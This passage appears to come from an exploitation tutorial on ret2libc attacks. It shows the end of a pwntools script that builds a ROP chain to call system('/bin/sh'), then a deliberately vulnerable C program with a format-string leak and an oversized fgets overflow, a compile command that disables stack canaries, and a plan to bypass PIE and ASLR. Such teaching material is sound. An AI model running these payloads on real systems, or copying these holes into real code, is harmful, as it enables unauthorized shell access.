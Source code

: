 ```python

x29 = b"AAAAAAAA"
x30 = p64(system)
fill = b"A" * (0x18 - 0x10)
x0 = p64(binsh)

payload = b"A"*stack_offset + ldr_x0_ret + x29 + x30 + fill + x0
p.sendline(payload)

p.interactive()
p.close()
```

## Ret2lib - NX, ASL & PIE bypass with printf leaks from the stack

```c
#include <stdio.h>

void printfleak()
{
    char buf[100];
    printf("\nPrintf>\n");
    fgets(buf, sizeof(buf), stdin);
    printf(buf);
}

void bof()
{
    char buf[100];
    printf("\nbof>\n");
    fgets(buf, sizeof(buf)*3, stdin);
}

void main()
{
    printfleak();
    bof();
}

```

Compile **without canary**:

```bash
clang -o rop rop.c -fno-stack-protector -Wno-format-security
```

### PIE and ASLR but no canary

- Round 1:
  - Leak of PIE from stack
  - Abuse bof to go back to main
- Round 2:
  - Leak of libc from the stack
  - ROP: ret2system
